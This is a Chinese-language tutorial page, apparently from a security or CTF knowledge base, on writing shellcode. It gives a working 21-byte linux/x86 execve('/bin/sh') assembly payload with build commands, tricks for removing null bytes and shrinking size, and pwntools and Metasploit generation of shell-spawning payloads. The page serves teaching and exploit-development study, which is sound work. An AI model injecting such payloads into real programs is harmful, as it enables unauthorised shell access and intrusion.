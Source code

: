 # Shellcode

Shellcode 是一小段代码, 在漏洞利用后用于注入到目标程序中执行. 常见的一个功能是获取 shell 因此得名.

## 编写

以下是一段简单的 shellcode 代码:

```asm
; linux/x86 execve("/bin/sh", 0, 0) 21 bytes
global _start
_start:
    xor  edx, edx ; argv = 0
    xor  ecx, ecx ; envp = 0
    push ecx
    push "/sh"
    push "/bin"
    mov  ebx, esp ; pathname = "/bin/sh"
    mov  al, 0xb  ; execve NR
    int  0x80     ; syscall
```

可以使用在线工具 [Compiler Explorer](https://godbolt.org/) 进行编译, 在 Linux 下可以使用 [NASM - Archive](https://web.archive.org/web/20250408120856/https://www.nasm.us/) 进行编译:

```sh
nasm -f elf32 shellcode.asm             # 编译
ld -m elf_i386 -o shellcode shellcode.o # 链接
objdump -d shellcode                    # 打印反汇编结果
```

设置参数并将系统调用的 NR(number) 写入指定寄存器后触发中断即可. 其他指令集的用法有所不同, 具体使用方式请参考 [Linux 系统调用 - Archive](https://web.archive.org/web/20230602025500/https://publicki.top/syscall.html).

## 定制

根据漏洞的具体情况, shellcode 会受到一定限制. 下面将简要说明如何满足这些限制.

### 限制能使用的字符

以常见的 bad char 0x00('\0') 为例, 观察二进制代码会发现 `push "/sh"` 由于参数大小为 24 比特, 因此被当作 imm32. 最后多出的一字节使用 0 填充, 产生了 0x00, 使得该 shellcode 无法作为一个 C-style 的字符串.  
将该命令改为 `push "//sh` 即可在不影响程序运行/不增加大小的情况下消除这个 0x00.  
传递给 execve 的两个参数也为 0, 这里使用 xor 来将寄存器的值改为 0, 避免直接以 0 作为立即数而导致产生 0x00.

### 限制长度

手工编写专用的 shellcode, 以实现体积最小化. 还可以将体积较大的 shellcode 存放在其他位置(对大小不敏感, 但不能执行), 然后搜索并执行.

!!! info "CTF"
    可能限制系统调用的使用, 此时需要编写专门的 shellcode 只通过可用的系统调用完成任务.

## 生成

- 利用 [MSF](Metasploit.md) 生成 shellcode, 可定制.
- 利用 [ALPHA3](https://github.com/TaQini/alpha3) 生成由可见字符集构成的 shellcode.
- 利用 [pwntools](https://github.com/Gallopsled/pwntools) 生成特定架构和系统的 shellcode, 不可定制.

    ```py
    from pwn import *
    context(arch = 'i386', os = 'linux') # linux/x86
    print shellcraft.sh()      # 输出 shellcode 汇编代码
    print asm(shellcraft.sh()) # 输出 shellcode 二进制代码
    ```

## 参见

- [Exploit Database Shellcodes](https://www.exploit-db.com/shellcodes).
- <http://shell-storm.org/shellcode/>.
